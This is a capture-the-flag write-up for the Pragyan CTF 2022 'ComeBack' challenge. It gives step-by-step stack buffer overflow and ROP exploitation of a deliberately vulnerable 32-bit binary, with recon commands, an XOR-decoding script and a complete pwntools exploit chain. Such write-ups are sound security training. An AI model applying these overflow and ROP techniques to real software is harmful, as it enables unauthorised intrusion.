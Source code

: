 # Pragyan CTF 2022: ComeBack
## Write-Up

1) It is a ROP challenge. Inspect the binary using radare2.

``` r2 vuln ``` followed by ```aaaa``` and ```afl``` to analyze the functions.

2) In the new_main function, a buffer of 0x20 is created but the input reads in 0x200, for a possible buffer overflow.

3) Now to find the junk to break into stack, you can use gdb or an extension of gdb called gef to find it.

``` pattern create 60``` followed by ```r``` to run the program and input the buffer created.

In this way, pattern offset can be found.

4) You would notice three functions tryOne, tryTwo, tryThree. These functions are built in libvuln.so. So to find the arguments to be passed to these functions, inspect libvuln.so using radare2.

To find parameters to be passed to tryOne function, ``` pdf @ sym.tryOne``` and you will find the parameters being checked in a cmp.

5) To pass values to function, a gadget must be used. Since three arguments are passed, ```pop esi ; pop edi ; pop ebp ; ret``` should do.
The gadget address can be found using radare2 or using a tool called ROPgadget, ``` ROPgadget --binary vuln --ropchain | grep ": pop esi ; pop edi ; pop ebp ; ret" ```

6) The parameters of the function is checked with the XOR encrypted strings but the parameters are taken in int datatype which hints that the parameters might be hex. The __encrypt() function is called in strcmp() function. Now to get the decrypted function parameters, we can run

```
def encryptDecrypt(inpString):
    xorKey = "3T5*)Z'0B6";
    length = len(inpString);

    for i in range(length):
     
        inpString = (inpString[:i] +
             chr(ord(inpString[i]) ^ ord(xorKey[i])) +
                     inpString[i + 1:]);
        print(inpString[i], end = "");
     
    return inpString;
 

if __name__ == '__main__':
    encryptedArg = ""; # Input the encrypted argument
 
    # Encrypt the string
    print("Parameter: ", end = "");
    encryptedArg = encryptDecrypt(encryptedArg);
```

XORkey can be found in radare2 by disassembling the function __encrypt() using ```pdf @ sym.__encrypt``` and address where XOR key is stored can be found. Run the above script for 3 different variables to get the parameters. These are variables in the global scope of libvuln.so file. The parameters' offset can be found in disassembly of each tryOne, tryTwo and tryThree and their addresses. The varaiables' name can be determined in gdb using command ```info variables``` and its address. The variable names are check_p1, check_p2, check_p3.  

Create a header file named ```libxyz.h```. Add the following lines to it-

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

extern char check_p1[];
extern char check_p2[];
extern char check_p3[];
```
Now create another file try.c and add the following lines to it-

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>
#include "libxyz.h"

int main(){
    FILE *fptr;
    fptr = fopen("params.dat","wb");
    fprintf(fptr,"%s\n",check_p1);
    fprintf(fptr,"%s\n",check_p2);
    fprintf(fptr,"%s\n",check_p3);
    fclose(fptr);
    return 0;
}
```

Compile the file with ```gcc -m32 -fno-stack-protector -no-pie -o new_vuln try.c libvuln.so -Wl,-rpath=./``` and run ```./new_vuln```

The respective variable values are stored in the file ```params.dat```.

7) Now a chain can be build. Exploit :-

```
from pwn import *

import struct

binary = context.binary = ELF('./vuln')
gadget = struct.pack("I", 0x080493d1) # pop esi ; pop edi ; pop ebp ; ret
buf  = b"A" * 52
buf += gadget
buf += struct.pack("I", 0xdeadbeef)
buf += struct.pack("I", 0xf00dcafe)
buf += struct.pack("I", 0xd00dface)
buf += p32(binary.sym.tryOne-4) # tryOne()
buf += gadget
buf += struct.pack("I", 0xdeadbeef)
buf += struct.pack("I", 0xf00dcafe)
buf += struct.pack("I", 0xd00dface)
buf += p32(binary.sym.tryTwo-4) # tryTwo()
buf += gadget
buf += struct.pack("I", 0xf00dcafe)
buf += struct.pack("I", 0xd00dface)
buf += struct.pack("I", 0xdeadbeef)
buf += p32(binary.sym.tryThree-4) # tryThree()
buf += gadget
buf += struct.pack("I", 0xd00dface)
buf += struct.pack("I", 0xdeadbeef)
buf += struct.pack("I", 0xf00dcafe)

with open('exp', 'wb') as exp:
    exp.write(buf)
```
8) Running ``` ./vuln < exp ```, will print out the flag.
